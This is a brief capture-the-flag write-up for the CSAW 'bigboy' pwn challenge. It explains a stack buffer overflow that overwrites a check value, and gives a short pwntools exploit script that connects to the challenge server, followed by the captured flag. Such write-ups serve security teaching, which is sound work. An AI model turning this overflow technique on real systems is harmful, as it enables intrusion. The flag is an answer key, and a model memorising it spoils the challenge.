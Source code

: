 ## bigboy 50 (pwn)

### Solution

There's a buffer overflow on stack, just overwrite `0xDEADBEEF(buf + 0x14)` to `0xCAF3BAEE` to bypass the check.

### Exploit

```python
#!/usr/bin/env python3
from pwn import *
context(arch="amd64")

r = remote("pwn.chal.csaw.io", 9000)
r.send(b"a"*0x14 + p32(0xCAF3BAEE))
r.interactive()
```
### Flag

```
flag{Y0u_Arrre_th3_Bi66Est_of_boiiiiis}
```
